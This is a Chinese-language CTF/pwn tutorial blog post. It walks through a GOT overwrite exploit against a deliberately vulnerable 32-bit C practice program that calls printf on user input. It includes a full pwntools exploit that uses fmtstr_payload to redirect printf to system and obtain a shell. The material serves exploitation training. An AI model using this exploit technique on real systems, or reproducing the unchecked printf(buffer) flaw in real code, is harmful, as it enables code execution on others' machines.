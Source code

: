 ```yaml
---
title: 利用 GOT Overwrite
subtitle:
date: 2023-08-28T20:14:36+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


<!--more-->

## 0x01 源码

{{< link href="/pwn_assets/got-overwrite-32.zip" content="got-overwrite-32.zip" title="Download got-overwrite-32.zip" download="got-overwrite-32.zip" card=true >}}

这可能是 GOT Overwrite 题中最简单的一个了。

```c
#include <stdio.h>

void vuln() {
  char buffer[300];

  while(1) {
    fgets(buffer, sizeof(buffer), stdin);

    printf(buffer);
    puts("");
  }
}

int main() {
  vuln();

  return 0;
}
```

一个简单的无限循环接收用户的输入，并用 `printf` 将其输出。这里不存在缓冲区溢出，
只有格式化字符串漏洞。

现在假设关闭了 ASLR，可以先自己试一试利用 GOT Overwrite 漏洞进行覆写 :)

## 0x02 漏洞利用

先设置好基本框架：

```python
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()
```

为了利用 `%n` 覆盖 GOT 表，我们需要找到格式化字符串读取到我们输入的缓冲区开始的偏移量。

```
$ ./got_overwrite-32
%p %p %p %p %p %p
0x12c 0xf7e445c0 0x8049191 0x40 0x25207025 0x70252070
```

可以确定是第五个位置。接下来获取该位置的地址：

```
$ ./got_overwrite-32
%5$p
0x70243525
```

完善 exp：

```python
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

这样就覆写成功了。如果缓冲区受到限制，你可以发送 `/bin/sh` 获得 shell 并运行更多命令。

### 1x01 最终 Exploit

```python {title="exp.py"}
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7c00000

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})

p.sendline(payload)

p.interactive()
```

## 0x03 64-bit

老样子 :)

{{< link href="/pwn_assets/got-overwrite-64.zip" content="got-overwrite-64.zip" title="Download got-overwrite-64.zip" download="got-overwrite-64.zip" card=true >}}

## 0x04 ASLR 版本

如果你想要额外的挑战，这里请启用 ASLR 并尝试解下面的题目。

{{< link href="/pwn_assets/got-overwrite-aslr.zip" content="got-overwrite-aslr.zip" title="Download got-overwrite-aslr.zip" download="got-overwrite-aslr.zip" card=true >}}

